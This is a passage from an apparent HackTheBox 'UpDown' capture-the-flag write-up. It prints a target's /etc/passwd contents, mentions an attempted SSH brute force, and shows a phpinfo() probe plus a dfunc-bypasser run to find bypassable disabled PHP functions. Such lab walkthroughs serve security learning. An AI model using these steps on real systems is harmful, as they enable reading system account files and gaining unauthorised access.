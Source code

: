 ```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin sshd:x:109:65534::/run/sshd:/usr/sbin/nologin landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:111:1::/var/cache/pollinate:/bin/false systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false developer:x:1002:1002::/home/developer:/bin/bash root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin sshd:x:109:65534::/run/sshd:/usr/sbin/nologin landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:111:1::/var/cache/pollinate:/bin/false systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false developer:x:1002:1002::/home/developer:/bin/bash
```
As a workaround, :P I tried bruteforcing ssh on the side but as its pretty slow and I couldn't crack the password in a while, I had to close it up after sometime.

We can check the disabled functions with the following:

```php
<?php phpinfo() ?>
```

![](/assets/img/htb/updown/Updown-13.png)

using [dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser):

```sh
python2 dfunc-bypasser.py --file /home/ut/cbrs3c/hackthebox/updown/PHPinfo.html


                                ,---,
                                  .'  .' `\
                                  ,---.'     \
                                  |   |  .`\  |
                                  :   : |  '  |
                                  |   ' '  ;  :
                                  '   | ;  .  |
                                  |   | :  |  '
                                  '   : | /  ;
                                  |   | '` ,/
                                  ;   :  .'
```